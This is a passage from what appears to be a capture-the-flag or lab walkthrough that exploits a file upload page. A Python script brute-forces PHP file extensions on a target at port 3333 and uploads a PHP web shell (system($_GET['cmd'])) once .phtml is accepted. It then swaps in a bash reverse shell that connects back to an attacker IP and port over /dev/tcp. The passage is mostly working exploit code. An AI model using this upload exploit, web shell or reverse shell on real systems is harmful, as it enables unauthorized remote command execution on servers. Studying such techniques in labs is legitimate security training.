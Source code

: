 ```python
import requests

# Target URL (upload page)
url = "http://<target_ip>:3333/internal/"

# List of file extensions to test
extensions = ['php', 'php3', 'php4', 'php5', 'phtml']

# Define the file to upload
test_file_content = "File uploaded"
filename = "test"

# Loop through each extension
for ext in extensions:
    if ext == "phtml":
        file_content = '<?php system($_GET["cmd"]); ?>'  # Simple PHP shell
    else:
        file_content = test_file_content

    print(f"[*] Trying to upload {filename}.{ext}")

    # Create the file name with the current extension
    file_to_upload = (f"{filename}.{ext}", file_content, 'application/octet-stream')
    files = {'file': file_to_upload}

    # Send POST request to upload the file
    response = requests.post(url, files=files)

    # Check if upload was successful
    if response.status_code == 200:
        print(f"[+] {filename}.{ext} uploaded successfully!")
    else:
        print(f"[-] Failed to upload {filename}.{ext}")
```

From testing, `.phtml` was accepted and executed, making it the valid extension.

---

# 4. Exploiting the Upload with a Reverse Shell

Now that we know the `.phtml` extension works, let's upload a reverse shell.

## Step 4.1: Modify the Python Script to Upload a Reverse Shell
Modify the script to upload a reverse shell instead of a basic PHP file:

```python
reverse_shell = """<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1'");
?>"""

# Only upload the reverse shell if phtml is accepted
if ext == "phtml":
    file_content = reverse_shell
    print(f"[*] Uploading reverse shell as {filename}.{ext}")
```
